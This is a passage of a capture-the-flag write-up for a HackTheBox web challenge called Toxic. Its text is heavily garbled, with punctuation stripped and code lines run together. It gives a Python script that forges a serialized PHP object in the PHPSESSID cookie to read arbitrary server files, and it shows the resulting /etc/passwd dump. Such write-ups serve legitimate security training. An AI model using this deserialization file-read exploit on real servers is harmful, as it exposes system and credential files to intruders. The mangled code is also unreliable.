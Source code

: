 
Therefore  the server is most likely performing some sort of include statement on the file parameter  To efficiently enumerate files on the server  a python script was developed to quickly perform the operation of modifying the file parameter and base64 encoding the object 

   highlight python   
import requests from base64 
import b64encodewhile True    
     
   f   input        
   payload      O 9  PageModel  1  s 4  file  s  d   s          len f rstrip    f rstrip     
   payload   b64encode payload encode     
   cookies      PHPSESSID    payload decode      
   html   requests get  http   167 99 88 212 30746  cookies cookies  text   if len html    0   
       print html 
   endhighlight   

In regards to the last two lines of the file  it was found that upon inputting a nonexistent file  or a file that cannot be read due to lack of permissions   the html output contained 0 bytes of data  Now  instead of tediously base64 encoding the cookie and putting it into BurpSuite  the python script can be run instead to quickly perform this task 

   highlight bash   
    0xd4y Writeup       business hackthebox challenges web toxic    
      python3 fileread py  
   etc passwd  
root x 0 0 root  root  bin ash  
bin x 1 1 bin  bin  sbin nologin  
daemon x 2 2 daemon  sbin  sbin nologin  
adm x 3 4 adm  var adm  sbin nologin  
lp x 4 7 lp  var spool lpd  sbin nologin  
sync x 5 0 sync  sbin  bin sync  
shutdown x 6 0 shutdown  sbin  sbin shutdown  
halt x 7 0 halt  sbin  sbin halt  
mail x 8 12 mail  var mail  sbin nologin  
news x 9 13 news  usr lib news  sbin nologin  
uucp x 10 14 uucp  var spool uucppublic  sbin nologin  
operator x 11 0 operator  root  sbin nologin  
man x 13 15 man  usr man  sbin nologin  
postmaster x 14 12 postmaster  var mail  sbin nologin  
cron x 16 16 cron  var spool cron  sbin nologin  
ftp x 21 21   var lib ftp  sbin nologin  
sshd x 22 22 sshd  dev null  sbin nologin  
at x 25 25 at  var spool cron atjobs  sbin nologin  
squid x 31 31 Squid  var cache squid  sbin nologin  
xfs x 33 33 X Font Server  etc X11 fs  sbin nologin  
games x 35 35 games  usr games  sbin nologin  
cyrus x 85 12   usr cyrus  sbin nologin  
vpopmail x 89 89   var vpopmail  sbin nologin  
ntp x 123 123 NTP  var empty  sbin nologin  
smmsp x 209 209 smmsp  var spool mqueue  sbin nologin  
guest x 405 100 guest  dev null  sbin nologin  
nobody x 65534 65534 nobody    sbin nologin  
www x 1000 1000 1000  home www  bin sh
   endhighlight   
